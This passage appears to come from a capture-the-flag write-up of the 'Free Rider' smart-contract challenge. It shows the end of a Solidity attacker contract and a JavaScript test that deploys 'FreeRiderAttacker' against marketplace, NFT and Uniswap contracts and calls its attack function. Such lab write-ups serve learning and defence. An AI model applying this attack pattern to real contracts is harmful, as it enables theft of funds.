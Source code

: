 ```solidity
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }

    receive() external payable
    {

    }

    fallback() external payable
    {

    }
}
```

### The Testcase

Finally, I implemented this in the testcase, which was super easy as I only had to deploy my attack contract and run it.

```js
let Attacker = await (await ethers.getContractFactory('FreeRiderAttacker', player)).deploy(token.address, weth.address, nft.address, marketplace.address, uniswapPair.address, uniswapRouter.address, uniswapFactory.address, devsContract.address);
await Attacker.attack();
```